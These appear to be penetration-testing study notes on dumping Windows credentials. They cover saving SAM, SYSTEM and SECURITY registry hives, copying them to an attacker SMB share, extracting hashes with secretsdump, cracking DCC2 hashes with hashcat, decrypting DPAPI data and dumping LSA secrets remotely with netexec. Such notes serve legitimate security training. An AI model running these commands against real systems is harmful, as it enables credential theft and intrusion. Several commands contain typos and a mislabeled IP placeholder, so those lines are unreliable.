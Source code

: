  - With administrative access to a Windows System, can attempt to quickly dump the files associated with the ==`SAM`== database, and begin cracking the hashes offline.

## Registry hives:

- These are three ==`registry hives`== which can copy if have a local administrative access to a target system
- each one of them serving a specific purpose when it comes to dumping and cracking password hashes.
	

| Registry Hive   | Description                                                                                                                                                                         |
| --------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `HKLM\SAM`      | Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext password.                                                           |
| `HKLM\SYSTEM`   | Stores the `system boot key` which is used to encrypt the SAM database. The key is required to decrypt the databases.                                                               |
| `HKLM\SECURITY` | Contains sensitive information used by ==`LSA (Local Security Authority)`==, including cached ==`Domain Credentials(DCC2)`==, ==`cleartext passwords`==, ==`DPAPI keys`== and more. |
- can backup these hives using the ==`reg.exe`== utility.
		```C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
			The operation completed successfully
		C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
			The operation completed successfully
		C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
		```
- ###### To share the Registry hives to the attacker machine:
	
	- #### Use smbserver to share the Registry Hives:
		
		-  To create the share:
			- simply run ==`smbserver.py -smb2support`==  specify a name for the share`(e.g CompData)`
			- Point it to the local directory on the attacker machine.
			- The ==`-smbsupport`== 
			- Command:
				- `python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <dir_name> <local_directory>`
			- This might fail for modern windows system because the SMBv1 is disabled by default due to  [numerous severe vulnerabilities](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=smbv1).
	
	- #### Moving hive copies to share:
		
		- Use this command in target machine to move the Registry hive:
			- `move sam.save \\<target_ip>\<dir_name>`
			- `move security.save  \\<target_ip>\<dir_name>`
			- `move system.save  \\<target_ip>\<dir_name>`

## Dumping hashes with secretsdump:

- For dumping hashes offline is ==`Impacket's secretsdump`==  is a useful tool.
- Impacket is included in most modern penetration testing distributions.
- Command:
	- use ==`locate`== command to locate ==`secretsdump`== in linux:
		- `locate secretsdump`
	
- Run the script with python and specify each of the hive files that have been retrieved from the target:
- Command:
	- `python3 /usr/share/doc/python3-impacket/example/secretsdump.py -sam sam.save  -security securoty.save -system system.save LOCAL`

- ##### Cracking hashes with Hashes:
	- Once getting all the hashes from ==`impacket's seretsdump`== copy them and save it in a file with extension .txt and use `hashcat` to crack the files.


## DCC2 hashes:

- ==`hklm\security`== contains cached domains logon information, in the form of DCC2 hashes.
- These are local, hashed copies of network credential hashes.
- This hashes are much more difficult to crack than a NT hash, as it used `PBKDF2`.
	- It cannot be used for lateral movement.
	- Hashcat mode for cracking DCC2 is ==`2100`==.
	- Command:
		- `hashcat -m 2100 '$DCC2$<hash_value>' /usr/share/wordlists/rockyou.txt`


## DPAPI:

- The ==`Data Protection Application Programming Interface`==, or ==`DPAPI`== were also dumped from ==`hklm\security`==
- The DPAPI, is a set of APIs in Windows Operating systems used to encrypt and decrypt data blobs on a per-user basis.
- Example of DPAPI and how they work:



| Applications              | Use of DPAPI                                                                                |
| ------------------------- | ------------------------------------------------------------------------------------------- |
| Internet Explorer         | Password form auto-completion data(username and password for saved sites)                   |
| Google Chrome             | Password form auto-completion data(username and password for saved sites)                   |
| Outlook                   | Passwords for email accounts                                                                |
| Remote Desktop Connection | Saved credentials for connections to remote machines                                        |
| Credential Manager        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |
- DPAPI encrypted credentials can be decrypted manually with tools like Impacket's:
	-  [dpapi](https://github.com/fortra/impacket/blob/master/examples/dpapi.py)
	- [mimikatz](https://github.com/gentilkiwi/mimikatz)
	- remotely with [DonPAPI](https://github.com/login-securite/DonPAPI)

## Remote dumping & LSA secrets considerations:

- With access to credential that have `Local administrator privileges`, it is also possible to target ==`LSA`== secrets over the network.
- This may allow to extract credentials from running services, schedule tasks or applications that passwords using ==`LSA`==.

- ##### Dumping LSA secrets remotely: 
	- Command:
		- `netexec smb <target_ip> --local-auth -u <user_name> -p <pass_word> --lsa`

- ##### Dumping SAM remotely:
	- Command:
		- `netexec smb <target_ip> --local-auth -u <user_name> -p <pass_word> --sam`

[[Introduction to Password Attacks]]